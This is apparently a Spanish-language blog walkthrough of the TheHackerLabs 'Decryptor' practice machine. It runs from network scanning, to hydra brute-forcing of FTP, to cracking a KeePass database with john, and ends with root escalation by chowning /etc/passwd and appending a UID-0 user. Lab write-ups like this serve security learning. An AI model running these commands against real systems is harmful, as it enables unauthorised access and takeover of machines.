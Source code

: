 ```yaml
---
layout: post
title: "Decryptor"
date: 2024-06-21 11:15:23
category: sample
vm: hackerlabs
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/thehackerlabs/thehackerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Decryptor </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://thehackerslabs.com/decryptor/" target="_blank"> Descarga</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/thehackerlabs/Decryptor/host.png){:.margin}

**1\.** Identifico el host en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/thehackerlabs/Decryptor/arp.png){:.margin}

**2\.** Escaneando servicios y puertos activos en la maquina.

`sudo nmap -p- --open -T5 -sCV --min-rate=5000 -n -Pn 192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/nmap.png){:.margin}

**3\.** Verificando la web que corre apache, en la fuente por debajo encuentro codigo Brainfuck.

`http://192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/80.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/80code.png){:.margin}

**4\.** Decodeando en [dcodefr](https://www.dcode.fr/brainfuck-language), este puede ser una posible contraseña.

![img](/notas/public/img/thehackerlabs/Decryptor/dcodefr.png){:.margin}

**5\.** Probe fuerza bruta al ssh sin exito, pero al ftp si se pudo.

`hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -p marioeatslettuce ftp://192.168.1.8:2121`

![img](/notas/public/img/thehackerlabs/Decryptor/hydra.png){:.margin}

**6\.** Me conecto por ftp, encuentro una base de datos de [Keepass](https://keepassxc.org/download/#linux), me lo descargo.

`ftp 192.168.1.8 -p 2121`

`dir`

`get user.kdbx`

![img](/notas/public/img/thehackerlabs/Decryptor/ftp.png){:.margin}

**7\.** Crackeando la contraseña de la base de datos.

`kepass2john user.kdbx > key`

`john --wordlist=/usr/share/wordlists/rockyou.txt key`

![img](/notas/public/img/thehackerlabs/Decryptor/john.png){:.margin}

**8\.** Lo abrimos con keepass, y encuentro unas credenciales.

![img](/notas/public/img/thehackerlabs/Decryptor/keepass.png){:.margin}
![img](/notas/public/img/thehackerlabs/Decryptor/keepassok.png){:.margin}

**9\.** Me conecto por ssh como chiquero.

`ssh chiquero@192.168.1.8`

![img](/notas/public/img/thehackerlabs/Decryptor/sshchiquero.png){:.margin}

**10\.** Encuentro un binario que puedo ejecutar como root.

`sudo -l`

![img](/notas/public/img/thehackerlabs/Decryptor/sudol.png){:.margin}

**11\.** Escalando privilegios, [gtfobins](https://gtfobins.github.io/gtfobins/chown/#sudo).

_11.1- Cambio propietario al etc/passwd_

`sudo /usr/bin/chown chiquero:chiquero /etc/passwd`

`ls -l /etc/passwd`

![img](/notas/public/img/thehackerlabs/Decryptor/chown.png){:.margin}

_11.2- Genero una contraseña y agrego un usuario con permisos root, migro a este y ya somos root_

`openssl passwd micontra`

`echo 'super:$1$AFnwwj9w$4m5nsE/FkLlU.gvCtTntR1:0:0::/home/super:/bin/bash' >> /etc/passwd`

`su super`

![img](/notas/public/img/thehackerlabs/Decryptor/root.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>